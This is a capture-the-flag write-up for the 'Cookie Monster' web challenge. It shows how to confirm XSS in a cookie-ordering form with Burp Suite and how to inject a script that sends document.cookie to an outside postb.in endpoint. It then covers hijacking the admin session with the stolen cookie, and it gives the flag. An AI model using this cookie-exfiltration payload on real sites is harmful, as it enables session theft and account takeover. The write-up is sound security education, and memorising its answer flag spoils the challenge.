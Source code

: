 # WORK IN PROGRESS

# Cookie Monster
* **Category**: Web Security
* **Points**: 200
* **Challenge**: Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:27734.
* **Hint #1**: If only we could inspect the device's memory while it is running...
* **Hint #2**: You can control the value so select all you want.
* **Hint #3**: If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

<br />

First lets navigate to the challenge in a web browser:
```
http://challenge.acictf.com:27734.
```
![cookiemonster](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/cookiemonster.JPG)

Based on the name of the challenge and some of the hints, we can assume that we are going to [stealing cookies via XSS](https://www.openlearning.com/u/ivanteong/blog/StealingCookiesViaXssUsingPhpOrRequestbin/).  Lets submit a cookie to the cookie monster (random name and ingredients) and [capture the POST request in Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/getting-started):

<br />

![burp1](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp1.JPG)

<br />

There are two parameters potentially vulnerable to XSS, *name* and *ingredients*.  Lets use a simple JavaScript alert to see if the site is vulnerable to Reflected XSS:
```
<script>alert("XSS!")</script>
```

<br /> 

Now place the JavaScript alert in place of one of the ingredients in Burp Suite: 
```
name=Sugar&ingredients=<script>alert("XSS!")</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

<br /> 

Forward the POST request Burp Suite and we get an alert message on the next page:

<br /> 

![alert](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/alert.JPG)

<br /> 

Now that we know the site is vulnerable to XSS, we can use that to obtain the admin session cookie.  When we slected submit cookie for approval we recived another alert message and a statement saying taht the cookie monster is viewing our cookie.  That will be the point where we should get the cookie.

Use postb.in to received the admin cookie from the victims browser.  After selecting *create bin*, use the URL to craft malicious JavaScript: 
```
<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>
```

<br /> 

Inject the malicious Javascript into the POST just like we did with the alert messsage:
and submit the cookie for approval
```
name=Sugar&ingredients=<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

Refresh the PostBin page and you should see the admin cookie:

<br />

![admincookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/admincookie.JPG)

<br />

Now that we have the admin cookie 'b4697910-6dbc-4836-851b-a14e7a5bb7d0', we can use this to navigate to the *Cookie Admin* page.  Intercept the GET request in BurpSuite and replace your cookie with the admin cookie:

![burp2](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/burp2.JPG)

<br />

We are presented with a page with a link to *Flag Cookie*.  Click it to get the flag:


<br />

![flagcookie](https://github.com/eesantiago/Writeups/blob/master/CyberStakes_2020/cookie_monster/screenshots/flagcookie.JPG)

<br />

## Flag: ACI{07c3bc112a56b3d9512b6a54148}



